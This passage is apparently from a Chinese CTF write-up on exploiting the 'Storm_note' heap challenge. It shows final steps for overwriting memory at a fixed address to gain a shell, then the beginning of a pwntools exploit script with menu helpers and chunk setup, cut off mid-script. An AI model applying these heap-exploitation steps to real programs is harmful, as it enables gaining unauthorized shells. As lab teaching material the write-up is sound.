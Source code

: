 	add(0x40)
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/950899dc8f374c7387c8f6923d8d813d.png)
之后就是把0xABCD0100处的0x30个字节改为已知数，然后获得shell

	payload = '\x00'*(0x10+0x30)
	edit(2,payload)
	
	dbg()
![](https://img-blog.csdnimg.cn/65914edb5d2a4b28818664c8e045bbb9.png)

		sla('Choice: ','666')
		s(p64(0)*6)
		itr()
![在这里插入图片描述](https://img-blog.csdnimg.cn/c88e75a6f70c4602a715c19022ed53fd.png)
#### exp
	# coding=utf-8
	from pwn import *
	#context(endian='little',os='linux',arch='amd64',log_level='debug')
	sh = process('./Storm_note')
	
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims		    :sh.recvuntil(delims)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))
	def dbg():
	        gdb.attach(sh)
	        pause()
	
	
	def add(size):
	  sla('Choice','1')
	  sla('?',str(size))
	
	def edit(index,text):
	  sla('Choice','2')
	  sla('?',str(index))
	  sa('Content',text)
	
	def free(index):
	  sla('Choice','3')
	  sla('?',str(index))
	#---------------布置chunk-------------------------#
	add(0x18)#0
	add(0x508)#1
	add(0x18)#2
	